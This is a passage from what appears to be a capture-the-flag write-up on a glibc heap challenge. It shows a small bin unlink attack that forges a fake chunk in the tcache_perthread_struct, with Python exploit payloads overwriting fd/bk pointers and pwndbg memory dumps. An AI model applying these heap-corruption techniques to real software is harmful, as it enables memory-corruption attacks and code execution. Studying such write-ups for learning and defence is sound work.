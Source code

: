```c
0x55f2db383040: 0x0000000000000000      0x0000000000000100 <- heapbase+0x40
0x55f2db383050: 0x000055f2db383a40      0x000055f2db3839b0
0x55f2db383060: 0x0000000000000000      0x0000000000000000
```

Now we start with the small bin unlink attack. First, remember the 0x210 sized chunk we allocated that I said was right on top of that fake 0x20 sized chunk from way before? We now send it to the small bin:
```python
# Send that initial 0x210 sized chunk into the small bin now
sell(1) # Send it to the unsorted bin
buy(1, 0x220, 'A'*0x210) # Move it to the small bin 
```
```c
pwndbg> smallbin
smallbins
0x220: 0x55be054fea40 —▸ 0x7f9879311eb0 (main_arena+624) ◂— 0x55be054fea40
```

Now we free that fake 0x6c1 chunk from before into the unsorted bin, and reallocate it to be able to overwrite the metadata for the 0x20 and 0x30 sized fake chunks whose pointers are currently in the `tcache_perthread_struct`.

* We make it so that the `fd` pointer of the 0x20 chunk points to the fake chunk in the `tcache_perthread_struct`.
* We make it so that the `fd` pointer for the small bin chunk (the 0x30 sized chunk essentially) points to the small bin itself (as it should), while the `bk` pointer points to the fake chunk in the `tcache_perthread_struct`.

This is shown below:
```python
smallbin = libc.address + 0x1e4eb0 # 0x220 small bin is here
tcache_fake_chunk = heap+0x40 # Fake chunk in the tcache_perthread_struct

payload = '\x00'*0x98 + p64(0x31) # 0x30 sized chunk pointer points here
payload += p64(tcache_fake_chunk) # Overwrite the fd to heapbase+0x40
payload += '\x00'*0x80 + p64(0x221) # 0x30 sized chunk pointer points here
payload += p64(smallbin) + p64(tcache_fake_chunk) # Overwrite fd and bk, corrupt smallbin
buy(5, 0x6b0, payload)
```

This sets it up so that the heap and the smallbin now looks like this:
```c
pwndbg> x/40gx 0x562f0aff6000
0x562f0aff6000: 0x0000000000000000      0x0000000000000251
0x562f0aff6010: 0x0200000000000101      0x0000000000000000
0x562f0aff6020: 0x0000000000000000      0x0000000000000000
0x562f0aff6030: 0x0000000000000007      0x0000000000000000
0x562f0aff6040: 0x0000000000000000      0x0000000000000100 <- fake_chunk in the
0x562f0aff6050: 0x0000562f0aff6a40      0x0000562f0aff69b0    tcache_perthread_struct
0x562f0aff6060: 0x0000000000000000      0x0000000000000000

pwndbg> x/4gx 0x0000562f0aff6a40 <- (fake_chunk->fd)
0x562f0aff6a40: 0x0000000000000000      0x0000000000000221 
0x562f0aff6a50: 0x00007f42e405deb0      0x0000562f0aff6040 <- fake_chunk   
                        ^------------------------------------ small bin

pwndbg> x/4gx 0x0000562f0aff69b0 <- (fake_chunk->bk)
0x562f0aff69b0: 0x0000000000000000      0x0000000000000031
0x562f0aff69c0: 0x0000562f0aff6040      0x0000000000000000
                        ^------------------------------------ fake_chunk

pwndbg> x/4gx 0x00007f42e405deb0 <- small bin
0x7f42e405deb0 <main_arena+624>:        0x00007f42e405dea0      0x00007f42e405dea0
0x7f42e405dec0 <main_arena+640>:        0x0000562f0aff6a40      0x0000562f0aff6a40
```
